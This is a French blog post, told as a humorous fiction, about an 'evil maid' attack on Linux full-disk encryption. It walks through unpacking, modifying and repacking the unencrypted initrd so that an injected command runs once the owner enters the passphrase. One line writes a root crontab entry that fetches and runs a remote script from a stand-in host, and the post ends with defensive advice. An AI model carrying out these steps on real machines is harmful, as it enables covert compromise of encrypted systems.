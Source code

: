 ```yaml
---
title: "Bypasser le chiffrement de disque sous Linux"
tags: [Cryptographie, vulnérabilité]
---
```



![FBI Kitteh](/assets/img/fbi_kitteh.jpg)

## Introduction dramatique  

À chaque projet de loi concernant l'Internet ou le téléchargement, on assiste à une véritable foire où les internautes ne cessent de critiquer et de minimiser les mesures techniques proposées par le gouvernement arguant quelles sont inefficaces, onéreuses et difficiles à mettre en place... C'est souvent le cas.  

Mais j'évite de participer aux discussions enflammées sur les forums où chacun y va de sa contre mesure technique... ce sont souvent les moins informés qui s'y expriment le plus.  

Si vous avez fait un tour chez un libraire ces derniers temps, vous avez dû remarquer qu'une certaine presse (les magazines sur lesquels on voit une bourrique ou un drapeau noir) joue aussi le jeu à fond et la page de couverture titre à peu près *"Toutes les astuces pour pas se faire gauler !"*.  

Avec la [LOPSI 2](http://fr.wikipedia.org/wiki/Loi_d'orientation_et_de_programmation_pour_la_performance_de_la_s%C3%A9curit%C3%A9_int%C3%A9rieure), le phénomène est exactement le même. Un peu partout sur le web, vous lirez que pour empêcher l'insertion du fameux mouchard, il suffit de chiffrer son disque.  

Mais qu'en est-il réellement ?  

## Scénario improbable  

*José* est un terroriste.  
C'est du moins ce que certaines personnes pensent, tellement il est de gauche, tellement il porte la moustache, tellement il est agriculteur, tellement il va pas au *MacDo*...  

En plus il est anti-capitaliste au point de ne pas utiliser un système *Microsoft* !! C'est sûr, *José* et un homme dangereux.  

D'ailleurs il a installé une *Debian Lenny* en utilisant les options permettant de chiffrer l'ensemble de ses données.  

Le ministre de l'Intérieur a décidé que ce serait bien d'avoir un œil sur ses communications. Malheureusement *José* communique avec *GPG*. De plus une exploitation distante pour pénétrer son ordinateur a peu de chances de réussir, car il utilise *OpenOffice* ;-) et met régulièrement son système à jour.  

C'est pour cela que le *GIPM* (*Groupe d'Intervention de Pose de Mouchard*) s'est vu remettre l'opération.  

Mais une fois qu'ils ont obtenu un accès physique à l'ordinateur, le *GIPM* (mené par l'inspecteur *Coudrier*) s'aperçoivent que le disque est chiffré !!  

L'inspecteur *Coudrier* trouvera-t-il une astuce ? *José* ira-t-il à *Quick* à défaut de *MacDo* ?  

## Chapitre II  

*Coudrier* ne s'avoue pas vaincu. Il a pris soin d'éplucher [le manuel d'installation Debian](http://d-i.alioth.debian.org/manual/en.i386/ch06s03.html) et s'est attardé sur la partie concernant le chiffrement.  

A priori ce n'est pas gagné : le disque est préalablement effacé et les données ensuite chiffrées avec des algorithmes solides. Pourtant, il a remarqué un détail dans l'article :  

> Some people may even want to encrypt their whole system. The only exception is the /boot partition which must remain unencrypted, because currently there is no way to load the kernel from an encrypted partition.

En effet, depuis sa vieille galette *KnoppixSTD* qu'il a lancé sur l'ordinateur, *Coudrier* a remarqué deux entrées dans `/etc/fstab`.  

La première est la partition `/dev/hda1` montée sur `/boot` au format ext2, de petite taille.  

La seconde (`/dev/hda2`) est marquée de format auto. Son contenu est une suite d'octets inexploitables. Seules quelques chaines au début de la partition semblent indiquer qu'il s'agit d'une partition chiffrée. On peut lire `LUKS aes cbc-essiv:sha256 sha1`.  

*Coudrier* monte la partition `/boot` et liste son contenu : un dossier `grub` et `lost+found` ainsi que des fichiers `config-2.6.26-2-686`, `initrd.img-2.6.26-2-686`, `System.map-2.6.26-2-686` et `vmlinuz-2.6.26-2-686`.  

L'inspecteur n'ayant aucune connaissance en virologie, il laisse de côté le fichier `vmlinuz-2.6.26-2-686` et commence à s'intéresser au fichier `initrd.img-2.6.26-2-686`.  

Ce fichier pèse 7Mo et est compressé par gzip. *Coudrier* le copie sur sa clé USB, le décompresse et obtient une archive au format `cpio`.   

```console
$ cp initrd.img-2.6.26-2-686 /mnt/usbkey/initrd.gz
$ cd /mnt/usbkey
$ gunzip initrd.gz
$ file initrd
initrd: ASCII cpio archive (SVR4 with no CRC)
```

Une recherche sur Google depuis une autre machine l'amène à [une page sur les étapes du boot Linux](http://oldfield.wattle.id.au/luv/boot.html) et une autre sur [la manipulation d'un fichier initrd](http://aasoftware.eu/index.php?option=com_content&task=view&id=44&Itemid=39).  

Avec la première page, il apprend que la partition racine est montée après le lancement de `initrd`. Pourtant, dans la section `initrd` on peut lire *"'real' root is mounted"*... étrange.  

L'inspecteur n'a pas toute la journée : il tente sa chance.  

En listant le contenu du `initrd` (`cpio -itv < initrd`) il observe des fichiers qui ne lui sont pas utiles comme des modules kernel ou des binaires statiques et strippés.  

Il y a aussi un dossier `scripts` dont le contenu est le suivant :   

```
scripts/nfs
scripts/local
scripts/init-premount
scripts/init-premount/udev
scripts/init-premount/blacklist
scripts/init-premount/thermal
scripts/local-top
scripts/local-top/lvm2
scripts/local-top/cryptopensc
scripts/local-top/lvm
scripts/local-top/cryptroot
scripts/local-bottom
scripts/local-bottom/cryptopensc
scripts/local-premount
scripts/local-premount/resume
scripts/init-top
scripts/init-top/keymap
scripts/init-top/framebuffer
scripts/init-top/all_generic_ide
scripts/functions
scripts/init-bottom
scripts/init-bottom/udev
```

Il décide d'approfondir et extrait (`cpio -iv < initrd`) les fichiers de l'archive cpio. Dans le fichier `scripts/local` il trouve une fonction baptisée *"mountroot"* qui contient la ligne suivante :  

```bash
mount ${roflag} -t ${FSTYPE} ${ROOTFLAGS} ${ROOT} ${rootmnt}
```

Il décide d'ajouter juste derrière la ligne   

```bash
echo "0 * * * *  root  cd /dev/shm && wget http://lopsi.interieur.gov/mouchard.sh && chmod +x mouchard.sh && ./mouchard.sh" > ${rootmnt}/etc/crontab
```

*Coudrier* régénère l'archive `cpio` avec ses modifications (`find * | cpio -o -H newc > ../new_initrd`) et la recompresse (`gzip -9 new_initrd`) avant d'écraser l'ancienne version.  

Il lance un `sync`, démonte les partions, retire sa galette et éteint la machine. Mission accomplished.  

## Fin  

Au prochain démarrage de son ordinateur, *José* rentre sa passphrase qui lui permet de déchiffrer les disques. Il ne sait pas qu'il a malgré lui permis à la commande de *Coudrier* de s'exécuter sur la partition tout juste déchiffrée...  

## Conclusion  

Bien que très efficace, le système de chiffrement de disque a quelques lacunes puisqu'un programme peut être injecté sur la partition `/boot` pour s'exécuter une fois que vous aurez autorisé le déchiffrement des partitions.  

Pour se protéger d'une telle attaque, il faudrait désactiver le boot sur périphériques CD ou USB dans le bios et protéger ce dernier par un mot de passe. Un cadenas physique empêchant le retrait du disque ou le vidage de la mémoire BIOS est aussi important.  

## Notes  

Comme indiqué dans cette fiction-réalité, j'ai effectué mes tests sur une Debian Lenny en sélectionnant le chiffrement total dans l'installeur.  

Les commandes que l'on peut insérer dans les scripts extraits du `initrd` sont limitées aux commandes du shell ainsi qu'aux exécutables (peu nombreux) présents dans l'archive. Impossible donc d'y lancer directement un programme comme `wget`.  

La commande que j'ai injectée durant mes tests créait uniquement un fichier dans `/etc` que l'on retrouvait une fois logué sur le système et après avoir saisi la passphrase. L'entrée `crontab` de l'article est juste là pour faire plus _l33t_.

*Published January 11 2011 at 12:39*
